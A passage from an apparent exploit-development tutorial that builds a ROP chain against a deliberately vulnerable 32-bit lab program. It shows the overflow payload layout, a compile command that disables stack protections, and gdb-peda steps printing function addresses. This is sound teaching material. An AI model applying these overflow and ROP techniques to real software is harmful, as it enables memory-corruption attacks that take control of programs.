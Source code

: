 ```
payload = AAAAs... + BBBB + &rop1 + &rop2 + &rop3 + &exit
```

...or for easier cross-reference - using the same colours as those seen in the above stack layout diagram:

![Payload structure visualized](<../../../.gitbook/assets/image (969).png>)

Let's find out the values we need to populate our payload with. Compile our vulnerable program `rop1a`:

```python
gcc -m32 -fno-stack-protector -z execstack rop1a.c -o rop1a
```

Start debugging it with [gdb-peda](https://github.com/longld/peda) and put a breakpoint on `main()` and continue execution:

```python
gdb rop1a
b main
c
```

Now, let's find out addresses for our functions `rop1`, `rop2`, `rop3` and `exit`:

```csharp
gdb-peda$ p rop1
$1 = {<text variable, no debug info>} 0x565561a9 <rop1>

gdb-peda$ p rop2
$2 = {<text variable, no debug info>} 0x565561d4 <rop2>

gdb-peda$ p rop3
$3 = {<text variable, no debug info>} 0x565561ff <rop3>

gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7e02950 <exit>
```

Below shows the function addresses in gdb:
